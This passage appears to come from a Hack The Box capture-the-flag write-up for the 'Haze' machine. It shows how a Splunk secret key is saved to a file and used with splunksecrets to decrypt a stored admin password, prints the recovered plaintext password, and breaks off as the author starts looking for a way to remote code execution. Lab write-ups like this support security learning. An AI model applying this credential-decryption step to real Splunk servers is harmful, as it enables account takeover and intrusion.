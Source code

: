 ```bash
echo "CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oPhVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B" > splunk.secret
```

Now decrypt

```bash
splunksecrets splunk-legacy-decrypt -S splunk.secret
```

→ Ciphertext: $1$YDz8WfhoCWmf6aTRkA+QqUI=
`Sp1unkadmin@2k24`

![Screenshot 2025-03-31 at 9.41.30 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_9.41.30_PM.png)

![Screenshot 2025-03-31 at 9.42.10 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_9.42.10_PM.png)

After searching how we can get RCE from this i just found this 
